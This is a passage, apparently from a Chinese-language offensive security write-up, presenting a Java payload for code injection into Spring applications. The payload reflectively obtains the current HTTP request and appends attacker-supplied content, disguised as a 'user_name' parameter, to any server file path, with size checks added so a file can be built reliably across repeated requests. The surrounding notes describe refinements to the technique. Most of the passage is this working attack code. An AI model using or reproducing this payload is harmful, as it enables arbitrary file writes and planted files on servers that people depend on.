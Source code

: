 优化：
- 不在代码里进行硬编码文件名，尽量排除低级错误（文件名记错/文件已写入过等）

![](./img/1708841898862.png)

创建文件时写入长度为 2000 的内容

2）追加文件内容

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String file_path = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"file_path"});
String small_size = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"small_size"});
String max_size = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"max_size"});
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
if (file_path != null && !file_path.isEmpty()) {
    File file = new File(file_path);
    // 在写入内容前判断当前文件内容长度
    if (file.exists() && file.length() > Long.parseLong(small_size) && file.length() < Long.parseLong(max_size)) {
        BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
        writer.write(code);
        writer.close();
        Thread.sleep(3000);
    }
}
```

优化：
- 新增 small_size 和 max_size 来排除负载带来的问题
  - 文件写入不完整
  - 文件多次写入相同的内容
